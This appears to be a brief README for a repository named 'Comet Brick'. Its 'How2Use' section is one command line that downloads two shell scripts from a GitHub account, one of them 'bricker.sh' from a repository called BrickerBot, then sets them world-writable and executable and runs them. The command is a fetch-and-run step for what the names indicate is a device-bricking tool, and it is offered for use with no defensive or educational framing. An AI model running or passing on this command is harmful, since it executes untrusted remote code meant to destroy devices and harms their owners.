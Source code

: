 # Comet Brick

## How2Use

    $ wget https://raw.githubusercontent.com/free1337/cometbrick/main/char_for_brick.bash; wget https://raw.githubusercontent.com/free1337/BrickerBot/main/bricker.sh; chmod 777 bricker.sh; chmod +x bricker.sh; chmod 777 char_for_brick.bash; chmod +x char_for_brick.bash; bash char_for_brick.bash || bash bricker.sh
